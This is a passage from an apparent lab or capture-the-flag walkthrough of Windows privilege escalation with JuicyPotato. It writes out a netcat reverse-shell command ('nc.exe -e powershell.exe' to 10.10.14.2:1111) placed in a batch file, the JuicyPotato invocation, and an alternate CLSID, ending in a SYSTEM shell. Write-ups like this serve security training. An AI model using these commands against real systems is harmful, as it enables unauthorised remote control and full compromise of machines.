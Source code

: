 From the reverse shell on a Windows Machine we can use this command:
``` shell
  -----------------------------------
  **rename JuicyPotato.exe js.exe**
  -----------------------------------
```
![](media/image115.png)

From our shell, we can create a batch file that will be executed by the
exploit, and return a SYSTEM shell. Let's add the following contents to
***shell.bat***:
``` shell
  ------------------------------------------------------------------------------------------------------------------------------
  **echo START C:\\inetpub\\wwwroot\\wordpress\\wp-content\\uploads\\nc.exe -e powershell.exe 10.10.14.2 1111 > shell.bat**
  ------------------------------------------------------------------------------------------------------------------------------
```
![](media/image116.png)

![](media/image117.png)

![](media/image118.png)

Let's start, from another terminal, another netcat listener:

![](media/image119.png)

Next, we execute the netcat shell using the JuicyPotato binary(js.exe):
``` shell
  ---------------------------------------------------------------------------------------------
  **js.exe -t \* -p C:\\inetpub\\wwwroot\\wordpress\\wp-content\\uploads\\shell.bat -l 1337**
  ---------------------------------------------------------------------------------------------
```
![](media/image120.png)

***NOTE:*** if our payload is not working, we can use another CLSID
``` shell
  ---------------------------------------------------------------
  Option to add : **-c {bb6df56b-cace-11dc-9992-0019b93a3a84}**
  ---------------------------------------------------------------
```
Now on the listener terminal we have a shell as “**nt
authority\\system**”
